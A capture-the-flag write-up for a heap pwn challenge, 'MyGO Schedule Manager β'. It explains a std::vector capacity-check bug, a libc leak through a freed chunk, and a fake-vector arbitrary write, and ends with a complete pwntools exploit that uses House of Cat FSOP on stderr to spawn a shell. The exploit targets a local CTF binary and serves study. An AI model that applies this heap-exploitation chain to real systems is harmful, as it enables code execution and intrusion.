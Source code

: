 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

PS: It has operation's times limit.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc (erase just destroy, not go to clear vector's element)
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.
0x8 and 0x10 set how many bytes you want to write.

Alloc three chunk:
When you allocate third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed one chunk which have written fake vector will be catch to use and fourth element have been put fake vector which point to `You want to write address`. 

When you read C++ source code, new allocate chunk didn't clear its chunk memory.

And it check index by capacity, so we can access this fake pointer(If we don't have UAF, when you add new schedule, your fake pointer will be overwritten).
OK, So we will get arbitrary write on libc (std::string).

We use house of cat (FSOP) and overwrite stderr. 
[House of cat](https://bbs.kanxue.com/thread-273895.htm)

And when this binary exit, We will get shell.

If you don't understand, go to read my script.

> PS: patch libc let you can success exploit on glibc 24.04. Use bindiff can more easily compare where I patch. (Just one part similarity is 0.99)

Just `_IO_wfile_seekoff` similarity is 0.99
![similarity](similarity.png)

Patch `jz` to `jnz`
![patchdiff](patchdiff.png)

> PS: More information go to read c++ source code https://github.com/Naupjjin/gcc/tree/master

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 127.0.0.1 51001")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = (u64(r.recvline().strip()[:6].ljust(8,b'\x00')) << 8 ) + 0x20
libcbase = leaklibc - 0x203b20


IO_STDERR = libcbase + 0x2044e0
libc_system = libcbase + 0x58740

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

libc_IO_wfile_jumps = libcbase + 0x202228
emptylibc = libcbase + 0x204bc0
fakew_data = IO_STDERR
fake_wow = IO_STDERR + 0x18

payload2  = b"sh;".ljust(8, b"\x00") # _flags

payload2  = payload2.ljust(0x20, b"\x00")
payload2 += p64(1)
payload2  = payload2.ljust(0x30, b"\x00")
payload2 += p64(libc_system)
payload2  = payload2.ljust(0x70, b"\x00")
payload2 += p32(2)
payload2  = payload2.ljust(0x78, b"\x00")
payload2 += p64(0xffffffffffffffff)
payload2  = payload2.ljust(0x88, b"\x00")
payload2 += p64(emptylibc) + p64(0xffffffffffffffff)
payload2  = payload2.ljust(0xa0, b"\x00")
payload2 += p64(fakew_data) 
payload2  = payload2.ljust(0xc0, b"\x00")
payload2 += p32(1)
payload2  = payload2.ljust(0xd8, b"\x00")
payload2 += p64(libc_IO_wfile_jumps + 0x30) + p64(fake_wow)

edit(3, payload2)


sl(b"5")

NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```








